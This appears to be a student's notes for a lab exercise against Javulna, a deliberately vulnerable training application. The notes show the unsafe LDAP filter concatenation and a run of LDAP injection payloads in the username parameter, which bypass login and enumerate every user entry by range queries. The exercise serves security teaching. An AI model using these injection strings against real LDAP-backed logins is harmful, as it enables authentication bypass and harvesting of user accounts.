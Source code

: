# Exercise 8

{{javulna_host}}/rest/ldap?username=kriszta&password=*
{{javulna_host}}/rest/ldap?username=j*&password=*

"(&(uid=" + uid + ") (userPassword=" + password + "))"

{{javulna_host}}/rest/ldap?username=*))(|(uid=*&password=bob => any entry that has a uid
{{javulna_host}}/rest/ldap?username=*)(!(uid=a*)&password=* => uid not start with 'a'

{{javulna_host}}/rest/ldap?username=*))(|(uid=*&password=bob => first with a uid


{{javulna_host}}/rest/ldap?username=*)(uid>=b))(|(uid=*&password=bob => first after 'a*'
{{javulna_host}}/rest/ldap?username=*)(uid>=h))(|(uid=*&password=bob => first after 'g*'
{{javulna_host}}/rest/ldap?username=*)(uid>=l))(|(uid=*&password=bob => first after 'k*' => no result, meaning we have em all


### all data
{{javulna_host}}/rest/ldap?username=*&password=* => 1st = aladar
{{javulna_host}}/rest/ldap?username=*)(uid>=aladar0))(|(uid=*&password=* => 1st after aladar = geza
{{javulna_host}}/rest/ldap?username=*)(uid>=geza0))(|(uid=*&password=* => 1st after geza = kriszta
{{javulna_host}}/rest/ldap?username=*)(uid>=kriszta0))(|(uid=*&password=* => 1st after kriszta = error